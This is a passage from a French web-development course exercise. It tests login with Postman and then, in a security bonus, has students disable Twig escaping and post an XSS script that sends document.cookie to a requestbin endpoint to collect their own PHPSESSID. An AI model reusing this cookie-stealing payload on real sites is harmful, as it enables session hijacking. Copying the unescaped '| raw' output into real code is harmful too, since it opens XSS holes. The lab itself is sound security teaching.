    ```php
    ```   

5. Testez l'authentification en appelant dans *Postman* la route précédente avec
   le corps de requête
   ```json
   {
      "login": "Romain1",
      "password" : "Romain1Romain1"
   }
   ```
   Observez que la réponse dépose un seul cookie `auth_token` comme voulu

</div>


## Bonus pour la SAÉ : Sécurité 

Si vous manquez de temps, appliquez juste la sécurisation des exercices 16 & 17
sans essayer de reproduire les attaques.

### Faille `XSS`

Découvrons 
[la faille de sécurité *Cross Site Scripting* (`XSS`)](https://developer.mozilla.org/fr/docs/Glossary/Cross-site_scripting) sur un exemple.

<div class="exercise">

1. Rendez votre site vulnérable en désactivant l'échappement `htmlspecialchars`.
   Pour ceci, modifiez le code suivant dans `feed.html.twig` : 
   
   ```diff
   - <p>{{ publication.message }}</p>
   + <p>{{ publication.message | raw }}</p>
   ```

   Remarquez par la même occasion que l'utilisation d'un framework professionnel
   protège souvent contre ce genre de vulnérabilité.

1. Rechargez la page. Elle doit afficher un pop-up message si vous avez toujours
   le message original `<script>alert("message")</script>`. Sinon, postez un tel
   message pour voir le pop-up s'afficher.

1. Donc un utilisateur malveillant peut poster un *feed* vérolé, ce qui lui
   permettra d'exécuter du code JavaScript chez tous les visiteurs de *The Feed*. Comme JavaScript a accès aux cookies par défaut, ça devient dangereux.

   [**Créez** un panier à requête public](https://requestbin.com/r) 
   (*request bin* en anglais) pour collecter toutes les requêtes faites à une URL. 
   Enregistrez bien l'URL (*endpoint*) donné et gardez cette page ouverte.

1. Postez le message suivant en remplaçant par votre *endpoint* : 

   ```html
   <script>
      fetch('https://ent4gomyidhlf.x.pipedream.net',{
      body: JSON.stringify(document.cookie),
      method: "POST"
      });
   </script>
   ```

   **Rechargez** la page pour qu'il soit affiché par Twig (et non créé par
   JavaScript). Ce *feed* envoie votre identifiant de session au panier de requête.

1. Il ne reste plus qu'à collecter la requête sur la page Web associée à votre
   *endpoint*. Cliquez sur votre requête qui est apparue à gauche, puis retrouvez votre l'identifiant de session `PHPSESSID` dans les informations sur la requête (corps de requête = *Body*).  

</div>
